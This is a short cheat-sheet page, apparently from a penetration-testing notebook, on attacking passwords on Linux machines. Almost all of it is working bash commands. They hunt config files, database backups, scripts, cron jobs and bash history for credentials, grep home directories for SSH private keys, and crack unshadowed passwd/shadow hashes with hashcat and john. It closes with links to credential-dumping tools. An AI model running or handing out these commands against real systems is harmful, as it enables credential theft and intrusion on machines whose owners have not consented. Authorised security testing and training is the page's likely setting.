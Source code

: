 ```yaml
---
description: Common Password Attack on Linux Machine
---
```


# Linux Password Attack

### Config Files Search

{% code overflow="wrap" %}
```bash
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```
{% endcode %}

### Credentials in Configuration Files

{% code overflow="wrap" %}
```bash
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```
{% endcode %}

### Database Backup Search

{% code overflow="wrap" %}
```bash
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```
{% endcode %}

### Search Notes/txt Files

{% code overflow="wrap" %}
```bash
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```
{% endcode %}

### Search Scripts on Linux

{% code overflow="wrap" %}
```bash
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```
{% endcode %}

### Search Cronjob

{% code overflow="wrap" %}
```bash
cat /etc/crontab
ls -la /etc/cron.*/
```
{% endcode %}

### Search SSH Private Key

```
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```

### Bash History

{% code overflow="wrap" %}
```bash
tail -n5 /home/*/.bash*
```
{% endcode %}

### Cracking Linux Credentials

{% code overflow="wrap" %}
```bash
# unshadow local creds
unshadow passwd.bak shadow.bak > unshadow.hash

# Perform Dictionary Attack
hashcat -m 1800 -a 0 unshadow.hash /usr/share/wordlists/rockyou.txt -o cracked_shadow
# or
john --wordlist=/usr/share/wordlists/rockyou.txt unshadow.hash
```
{% endcode %}

### Tools

* [https://github.com/unode/firefox\_decrypt](https://github.com/unode/firefox\_decrypt)
* [https://github.com/huntergregal/mimipenguin](https://github.com/huntergregal/mimipenguin)
* [https://github.com/AlessandroZ/LaZagne/tree/master/Linux](https://github.com/AlessandroZ/LaZagne/tree/master/Linux)
